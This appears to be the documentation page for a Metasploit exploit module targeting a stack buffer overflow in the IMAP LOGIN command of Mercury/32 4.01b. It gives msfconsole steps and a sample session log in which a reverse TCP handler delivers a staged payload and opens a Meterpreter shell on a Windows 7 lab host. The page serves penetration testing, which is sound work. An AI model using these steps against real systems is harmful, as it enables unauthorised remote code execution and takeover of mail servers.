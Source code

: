 Mercury/32 <= 4.01b contains an stack based buffer overflow in IMAPD LOGIN verb. Sending an specially crafted IMAP login command allows remote code execution.

## Vulnerable Application

This module exploits a stack buffer overflow in Mercury/32 <= 4.01b IMAPD LOGIN verb. By sending a specially crafted login command, a buffer is corrupted, and code execution is possible. This vulnerability was discovered by (mu-b at digit-labs.org).
Here's a link to the software: http://web.archive.org/web/20070119125847if_/http://ftp.usm.maine.edu/pegasus/Mercury32/m32-401b.zip

## Verification steps

  1. Install the vulnerable Mercury/32 application
  2. Start msfconsole
  3. Do: `use exploit/windows/imap/mercury_login`
  4. Do: `set RHOST IP`
  5. Do: `exploit`
  6. You should get a shell.

## Scenarios

### Mercury/32 v4.01a on Windows 7 SP1 x86
```
msf > use exploit/windows/imap/mercury_login1
msf exploit(windows/imap/mercury_login1) > set rhost 192.168.46.144
rhost => 192.168.46.144
msf exploit(windows/imap/mercury_login1) > exploit

[*] Started reverse TCP handler on 192.168.46.1:4444
[*] 192.168.46.144:143 - Sending payload (8931 bytes) ...
[*] Sending stage (179779 bytes) to 192.168.46.144
[*] Meterpreter session 1 opened (192.168.46.1:4444 -> 192.168.46.144:49219) at 2018-10-27 20:43:14 +0200

meterpreter >
Computer        : WIN-DQ8ELRSOJAO
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
